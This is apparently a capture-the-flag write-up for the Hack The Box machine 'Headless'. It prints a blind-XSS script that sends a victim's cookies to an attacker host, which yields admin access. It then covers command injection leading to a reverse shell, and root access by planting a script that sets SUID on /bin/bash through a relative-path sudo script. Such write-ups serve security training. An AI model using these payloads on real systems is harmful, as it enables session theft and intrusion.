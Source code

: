```yaml
---
title: Headless
published: true
layout: post
---
```


---------------
Headless is an easy-difficulty Linux machine that features a Python Werkzeug server hosting a website. The website has a customer support form, which is found to be vulnerable to blind Cross-Site Scripting (XSS) via the User-Agent header. This vulnerability is leveraged to steal an admin cookie, which is then used to access the administrator dashboard. The page is vulnerable to command injection, leading to a reverse shell on the box. Enumerating the user’s mail reveals a script that does not use absolute paths, which is leveraged to get a shell as root.

---------------------------------------------------
&nbsp;
## Walkthrough

### Reconnaissance

The first thing to do is **scan for open ports** in the target machine, I will divide this in 3 phases:
1. Scan for **open ports**
2. Scan for **services** in these open ports
3. Scan for **vulnerabilities** in these services

&nbsp;
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.8 -p- -T4 --min-rate 5000 -oG all_ports.txt --open -n -Pn
```

![Port_Scan](/assets/Headless/Pasted image 20240731154855.png)
&nbsp;
There are two open ports:
- **22/tcp**
- **5000/tcp**
&nbsp;
Even though we can see that nmap is reporting a service, it is only given by the port number, not by any check, so let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.8 -p 22,5000 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Service_Scan](/assets/Headless/Pasted image 20240731160318.png)
&nbsp;
We can see that the two services correspond to:
+ **22/tcp ssh**
+ **5000/tcp http**
&nbsp;
Although nmap is reporting us that the service might be upnp, we can see html code in the response. Some interesting pieces of information are the version of **Werkzeug**, **Python** and the ***is_admin* cookie**.

Let's scan for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.8 -p 22,5000 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

From this scan we got no relevant information.
&nbsp;
Let's scan this website for **directories and files** it may contain:

```bash
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dir_and_file_enum_5000.txt -t 25 -r
```

![Gobuster_Scan](/assets/Headless/Pasted image 20240731170119.png)
&nbsp;
The **dashboard** website **requires some kind of authorization**, which may be related to the ***is_admin* cookie**.

![Unauthorized](/assets/Headless/Pasted image 20240731170210.png)
&nbsp;
Before exploring the website, let's add an entry in ***/etc/hosts*** for this machine:

![etc_hosts](/assets/Headless/Pasted image 20240731161705.png)
&nbsp;
&nbsp;
### Foothold

The first thing we see when exploring the website is a countdown:

![Welcome](/assets/Headless/Pasted image 20240731162251.png)
&nbsp;
By clicking on the link we get to a **support form**, we can try to **inject** HTML code with JavaScript code in this form, we will use it to **steal the reader's cookies**:

```HTML
<script>
	var i=new Image();
	i.src="http://10.10.16.4/?cookie="+btoa(document.cookie);
</script>
```
&nbsp;
This code will create a variable that is supposed to be an image, the image will be requested to our server along containing the user cookies encoded in base64.

![Contact](/assets/Headless/Pasted image 20240731163301.png)
&nbsp;
Before clicking on submit, let's open a **web server** to receive the request:
```python
sudo python3 -m http.server 80
```

After submitting the form, we receive this notification:

![Hacking](/assets/Headless/Pasted image 20240731162643.png)
&nbsp;
Our code has not been submitted to the target, however we can see that the website has gathered and send some **information available in the HTTP request to the administrators**. Among all of these information, there is one piece that we can modify, the **User-Agent**. Let's use BurpSuite to do this:

![XSS](/assets/Headless/Pasted image 20240731163634.png])

After a few moments, we receive a **request to our web server**:
![Cookie_Steal](/assets/Headless/Pasted image 20240731164047.png)
&nbsp;
We should now decode the cookie:

```bash
echo -n "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```

![Cookie_Decode](/assets/Headless/Pasted image 20240731164143.png)
&nbsp;
We can inject this cookie into our browser to **impersonate the administrator**:

![Cookie_injection](/assets/Headless/Pasted image 20240731164319.png)
&nbsp;
Now we can navigate to the dashboard website to see the **administrator dashboard**:

![Dashboard](/assets/Headless/Pasted image 20240731170332.png)
&nbsp;
We can see that the website is used to generate a report based on the health of the website, when we click the *Generate Report* button we can see the message *Systems are up and running!* which may imply that this website is executing an **OS command**. Let's try to send our attacker machine a ping with BurpSuite:

```python
sudo tcpdump -vvvXi tun0 icmp
```

![ping](/assets/Headless/Pasted image 20240731170920.png)
![tcpdump](/assets/Headless/Pasted image 20240731170935.png)
&nbsp;
It worked! Let's now try to get a **reverse shell**:

```bash
sudo rlwrap nc -nlvp 443
```

![shell_burp](/assets/Headless/Pasted image 20240731171312.png)
&nbsp;
We received a shell:

![shell](/assets/Headless/Pasted image 20240731171422.png)
&nbsp;
Let's **sanitize the shell**:

```bash
Pwned> script /dev/null -c /bin/bash
#Ctrl+Z
Hacker> stty raw -echo; fg
Pwned> reset xterm
Pwned and Hacked> stty size #Para comprobar el número de filas y columnas del terminal
Pwned> stty rows $rows columns $columns
export TERM=xterm
export SHELL=bash
```
&nbsp;
![whoami](/assets/Headless/Pasted image 20240731171720.png)
&nbsp;
We are logged in as *dvir*, so we got the **user flag**.

![user_flag](/assets/Headless/Pasted image 20240731171757.png)
&nbsp;
&nbsp;
### Privilege Escalation

During the initial reconnaissance, we discovered that user *dvir* can run the script */usr/bin/syscheck* using `sudo`.

![sudoers](/assets/Headless/Pasted image 20240731171938.png)
&nbsp;
This script, among other things, **run the *initdb.sh* file* indicated by **relative path**:

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```
&nbsp;
&nbsp;
We can leverage this to **create our *initdb.sh* file** and **run it with sudo privileges**:

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck
```
&nbsp;
&nbsp;
We can now check that the */bin/bash* binary has ***SUID* permission**:

![SUID](/assets/Headless/Pasted image 20240731172912.png)
&nbsp;
And to finally **gain privileges** we can run:

```bash
bash -p
```

![root_flag](/assets/Headless/Pasted image 20240731173020.png)
&nbsp;
